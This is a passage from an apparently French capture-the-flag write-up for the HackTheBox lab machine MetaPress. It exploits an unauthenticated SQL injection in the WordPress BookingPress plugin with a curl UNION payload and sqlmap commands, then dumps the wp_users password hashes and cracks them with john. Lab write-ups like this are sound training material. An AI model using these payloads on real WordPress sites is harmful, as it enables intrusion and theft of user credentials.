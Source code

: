         <div>
            <span class="font-semibold text-red-600 dark:text-red-400">CVSS Score :</span> 9.8 (Critical)
        </div>
        <div class="mt-4">
            <span class="font-semibold text-red-600 dark:text-red-400">Description :</span><br>
            Le paramètre <code>total_service</code> dans l'action <code>bookingpress_front_get_category_services</code> n'est pas correctement sanitisé, permettant une injection SQL sans authentification.
        </div>
    </div>
</div>

### Vérification manuelle

Récupération du nonce depuis le code source de la page Events, puis test de l'injection :

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=60646b11e1&category_id=123&total_service=111) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Résultat :</strong> Injection SQL confirmée \!
    </p>
</div>

### Exploitation avec sqlmap

```bash
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --method POST \
--data "action=bookingpress_front_get_category_services&_wpnonce=60646b11e1&category_id=123&total_service=111" \
-p total_service --level=5 --risk=3 --dbs
```

**Bases de données découvertes :** `information_schema` et `blog`

### Extraction des utilisateurs WordPress

```bash
sqlmap -D blog -T wp_users --dump
```

**Credentials récupérés :**

```
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

### Crackage des mots de passe

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt wp_users.hash
```
